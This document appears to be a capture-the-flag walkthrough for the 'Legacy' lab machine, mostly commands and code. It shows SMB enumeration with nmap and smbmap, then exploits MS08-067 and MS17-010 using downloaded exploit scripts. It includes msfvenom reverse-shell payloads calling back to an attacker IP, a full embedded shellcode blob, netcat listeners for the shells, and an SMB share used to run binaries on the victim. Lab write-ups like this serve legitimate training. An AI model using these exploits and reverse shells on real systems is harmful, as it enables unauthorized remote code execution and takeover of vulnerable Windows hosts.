


# Legacy

furious 10.10.10.4
nmap -sC -sV -p139,445 -n -Pn 10.10.10.4 -oN targeted


```bash
smbmap -H 10.10.10.4

smbclient -N -L //10.10.10.4

nmap -p445 10.10.10.4 --script="smb-vuln*" -Pn -o nmap_smb.txt
```



# MS08-67

wget https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py

```bash 
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode -a x86 --platform windows
```

## we edit the shellcode in ms08-067.py
```python
shellcode =  b""
shellcode += b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0"
shellcode += b"\x5e\x81\x76\x0e\xae\xdb\xa9\xf4\x83\xee\xfc"
shellcode += b"\xe2\xf4\x52\x33\x2b\xf4\xae\xdb\xc9\x7d\x4b"
shellcode += b"\xea\x69\x90\x25\x8b\x99\x7f\xfc\xd7\x22\xa6"
shellcode += b"\xba\x50\xdb\xdc\xa1\x6c\xe3\xd2\x9f\x24\x05"
shellcode += b"\xc8\xcf\xa7\xab\xd8\x8e\x1a\x66\xf9\xaf\x1c"
shellcode += b"\x4b\x06\xfc\x8c\x22\xa6\xbe\x50\xe3\xc8\x25"
shellcode += b"\x97\xb8\x8c\x4d\x93\xa8\x25\xff\x50\xf0\xd4"
shellcode += b"\xaf\x08\x22\xbd\xb6\x38\x93\xbd\x25\xef\x22"
shellcode += b"\xf5\x78\xea\x56\x58\x6f\x14\xa4\xf5\x69\xe3"
shellcode += b"\x49\x81\x58\xd8\xd4\x0c\x95\xa6\x8d\x81\x4a"
shellcode += b"\x83\x22\xac\x8a\xda\x7a\x92\x25\xd7\xe2\x7f"
shellcode += b"\xf6\xc7\xa8\x27\x25\xdf\x22\xf5\x7e\x52\xed"
shellcode += b"\xd0\x8a\x80\xf2\x95\xf7\x81\xf8\x0b\x4e\x84"
shellcode += b"\xf6\xae\x25\xc9\x42\x79\xf3\xb3\x9a\xc6\xae"
shellcode += b"\xdb\xc1\x83\xdd\xe9\xf6\xa0\xc6\x97\xde\xd2"
shellcode += b"\xa9\x24\x7c\x4c\x3e\xda\xa9\xf4\x87\x1f\xfd"
shellcode += b"\xa4\xc6\xf2\x29\x9f\xae\x24\x7c\xa4\xfe\x8b"
shellcode += b"\xf9\xb4\xfe\x9b\xf9\x9c\x44\xd4\x76\x14\x51"
shellcode += b"\x0e\x3e\x9e\xab\xb3\xa3\xfe\xa0\xd4\xc1\xf6"
shellcode += b"\xae\xda\x12\x7d\x48\xb1\xb9\xa2\xf9\xb3\x30"
shellcode += b"\x51\xda\xba\x56\x21\x2b\x1b\xdd\xf8\x51\x95"
shellcode += b"\xa1\x81\x42\xb3\x59\x41\x0c\x8d\x56\x21\xc6"
shellcode += b"\xb8\xc4\x90\xae\x52\x4a\xa3\xf9\x8c\x98\x02"
shellcode += b"\xc4\xc9\xf0\xa2\x4c\x26\xcf\x33\xea\xff\x95"
shellcode += b"\xf5\xaf\x56\xed\xd0\xbe\x1d\xa9\xb0\xfa\x8b"
shellcode += b"\xff\xa2\xf8\x9d\xff\xba\xf8\x8d\xfa\xa2\xc6"
shellcode += b"\xa2\x65\xcb\x28\x24\x7c\x7d\x4e\x95\xff\xb2"
shellcode += b"\x51\xeb\xc1\xfc\x29\xc6\xc9\x0b\x7b\x60\x49"
shellcode += b"\xe9\x84\xd1\xc1\x52\x3b\x66\x34\x0b\x7b\xe7"
shellcode += b"\xaf\x88\xa4\x5b\x52\x14\xdb\xde\x12\xb3\xbd"
shellcode += b"\xa9\xc6\x9e\xae\x88\x56\x21"
```

```bash
python ms08-067.py 10.10.10.4 6 445


#on other terminal
nc -lvp 443
```

## open a smb server in our machine and get files from there on the other site

```bash
sudo smbserver.py a /usr/share/windows-binaries/ 
```

In the victim machine
```cmd
\\10.10.14.15\a\whoami.exe
```


# MS17-010

wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=8888 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/mysmb.py

```bash
python send_and_execute.py 10.10.10.4 shell.exe

# wait in another terminal a reverse shell
nc -lvp 8888 
```
